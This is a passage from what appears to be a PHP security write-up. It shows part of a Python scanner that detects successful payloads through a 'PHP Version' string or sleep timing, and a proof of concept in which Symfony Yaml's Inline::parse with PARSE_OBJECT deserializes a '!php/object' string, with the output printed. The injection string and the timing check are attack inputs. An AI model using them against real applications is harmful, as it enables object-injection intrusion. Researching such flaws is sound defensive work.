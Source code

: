 ```python
                "PHP Version"),
            payload['function'] == "sleep" and r.elapsed.total_seconds() > SLEEP/2
        ]
        if condition[0] or condition[1]:
            results.append([True, r.url])
            break
    return results

...

```


## Call to Symfony\Component\Yaml\Inline::parse

After reading the Symfony [documentation](https://symfony.com/doc/current/components/yaml.html)
it seem possible to use the componment `Symfony\Component\Yaml\Inline`
function's `parse()` to trigger a call to `unserialize()`.

File: <span style='color:red'>poc.php</span>
```php
<?php
require_once(__DIR__.'/vendor/autoload.php');

use Symfony\Component\Yaml\Yaml;
use Symfony\Component\Yaml\Inline;

echo "Exemple 1:" . "\n";
$object = new stdClass();
$object->foo = 'bara';

var_dump($object);

$dumped = Inline::dump($object, Yaml::DUMP_OBJECT);
echo "Dumped object:" . "\n";
echo $dumped . "\n\n";

echo "Exemple 2:" . "\n";
$string = '!php/object \'O:8:"stdClass":1:{s:3:"foo";s:4:"barb";}\'';
var_dump($string);
$parsed = Inline::parse($string, Yaml::PARSE_OBJECT);
echo "Parsed string is_object(): " . is_object($parsed) . "\n";
var_dump($parsed);
?>
```

Result:
```
▶ php poc.php
Exemple 1:
object(stdClass)#3 (1) {
  ["foo"]=>
  string(4) "bara"
}
Dumped object:
!php/object 'O:8:"stdClass":1:{s:3:"foo";s:4:"bara";}'

Exemple 2:
string(54) "!php/object 'O:8:"stdClass":1:{s:3:"foo";s:4:"barb";}'"
Parsed string is_object(): 1
object(stdClass)#2 (1) {
  ["foo"]=>
  string(4) "barb"
}
```